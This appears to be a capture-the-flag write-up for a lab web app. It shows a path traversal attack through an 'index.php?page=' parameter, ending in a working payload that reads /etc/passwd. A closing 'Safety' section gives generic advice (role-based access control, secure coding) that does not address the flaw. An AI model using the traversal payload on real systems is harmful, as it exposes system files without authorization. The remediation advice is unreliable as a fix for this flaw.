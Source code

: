 # Looking for a password

__http://192.168.99.101/index.php?page__

## Description and Outputs
I decided to go to the end.
```http://192.168.99.101/index.php?page=../``` = Wtf ?
```http://192.168.99.101/index.php?page=../../``` = Wrong..
```http://192.168.99.101/index.php?page=../../../``` = Nope..
```http://192.168.99.101/index.php?page=../../../../``` = Almost.
```http://192.168.99.101/index.php?page=../../../../../``` = Still nope..
```http://192.168.99.101/index.php?page=../../../../../../``` = Nope..
```http://192.168.99.101/index.php?page=../../../../../../../``` = You can DO it !!!  :]

## Flag
The flag is hidden there
```http://192.168.99.101/index.php?page=../../../../../../../etc/passwd```

## Safety
Over the exercise we need to follow the rules
Implement role-based access control (RBAC): Use RBAC to assign specific permissions and access rights to different user roles. This ensures that only authorized users can access and modify certain areas of the application.
Implement secure coding practices: Follow secure coding practices, such as using secure programming techniques, avoiding hardcoded passwords or sensitive information in the code, and properly handling error messages to avoid exposing system details.

